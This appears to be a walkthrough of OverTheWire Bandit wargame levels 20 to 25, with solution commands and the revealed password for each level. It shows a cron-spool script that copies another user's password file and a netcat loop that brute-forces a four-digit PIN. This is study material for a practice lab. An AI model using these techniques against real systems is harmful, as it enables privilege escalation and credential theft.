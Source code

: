 
## Level 20 -> 21
### Look -> ssh, nc, cat, bash, screen, tmux, Unix ‘job control’ (bg, fg, jobs, &, CTRL-Z, …)
#### Solve
```bash
echo -n 'GbKksEFF4yrVs6il55v6gwY5aVje5f0j' | nc -l -p 1234 &
./suconnect 1234
```
**password**: EeoULMCra2q0dSkYj561DX7s1CpBuOBt

## Level 21 -> 22
### Look -> cron, crontab, crontab(5) (use “man 5 crontab” to access this)
#### Solve
```bash
cd /etc/cron.d/
cat cronjob_bandit22
cat /usr/bin/cronjob_bandit22.sh
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```
**password**: tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q

## Level 22 -> 23
### Look -> cron, crontab, crontab(5) (use “man 5 crontab” to access this)
#### Solve
```bash
cd /etc/cron.d/
cat cronjob_bandit23
cat /usr/bin/cronjob_bandit23.sh
echo I am user bandit23 | md5sum | cut -d ' ' -f 1
cat /tmp/ #(write echo's result)
```
**password**: 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga

## Level 23 -> 24
### Look -> cron, crontab, crontab(5) (use “man 5 crontab” to access this)
#### Solve
```bash
mkdir /tmp/bnd
cd /tmp/bnd
vim bandit_pass.sh
	#!/bin/bash
	cat /etc/bandit_pass/bandit24 > /tmp/bnd/password
chmod 777 bandit_pass.sh
touch password
chmod 777 password
chmod 777 .
cp bandit_pass.sh /var/spooll/bandit24/foo
cat password
# you need to wait for a minute and read the password file
```
**password**: gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

## Level 24 -> 25
### Look -> Bash Script
#### Solve
```bash
mkdir /tmp/brutforce
cd /tmp/brutforce
vim bandit_pass.sh
	#!/bin/bash
	touch password
	for i in {1000..9999};
	do
	        echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"              
	done | nc localhost 30002 > password
	cat password | grep -v "wrong"
```
**password**: iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

## Level 25 -> 26
### Look -> ssh, cat, more, vi, ls, id, pwd
#### Solve
- a
``` bash

```

**password**: 